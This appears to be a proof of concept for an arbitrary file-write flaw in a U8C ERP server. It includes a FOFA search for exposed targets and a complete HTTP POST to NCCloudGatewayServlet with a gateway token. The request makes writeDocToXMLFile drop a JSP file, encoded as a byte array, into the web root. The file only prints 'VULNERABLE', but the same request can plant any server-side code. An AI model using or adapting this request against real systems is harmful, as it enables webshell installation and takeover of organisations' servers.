 fofa: title=u8c

"body": [60, 37, 32, 111, 117, 116, 46, 112, 114, 105, 110, 116, 108, 110, 40, 34, 86, 85, 76, 78, 69, 82, 65, 66, 76, 69, 34, 41, 59, 32, 37, 62]`

将VULNERABLE写入tes44.jsp

POST /service/NCCloudGatewayServlet HTTP/1.1
Host: 10.21.69.223:8087
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Cache-Control: max-age=0
gatewaytoken:TJ6RT-3FVCB-DPYP8-XF7QM-96FV3
Content-Type: application/json

{

"groupCode": "1002",
"user": "1002",
"serviceInfo": {
"serviceClassName": "nc.itf.uap.pfxx.IPFxxFileService",
"serviceMethodName": "writeDocToXMLFile",
"serviceMethodArgInfo": [
      {
"argType": {
"body": "java.lang.Byte"
        },
"argValue": {
"body": [60, 37, 32, 111, 117, 116, 46, 112, 114, 105, 110, 116, 108, 110, 40, 34, 86, 85, 76, 78, 69, 82, 65, 66, 76, 69, 34, 41, 59, 32, 37, 62]
        },
"agg": false,
"isArray": true,
"isPrimitive": true
      },
      {
"argType": {
"body": "java.lang.String"
        },
"argValue": {
"body": "./webapps/u8c_web/tes44.jsp"
        },
"agg": false,
"isArray": false,
"isPrimitive": false
      }
    ]
  }
}
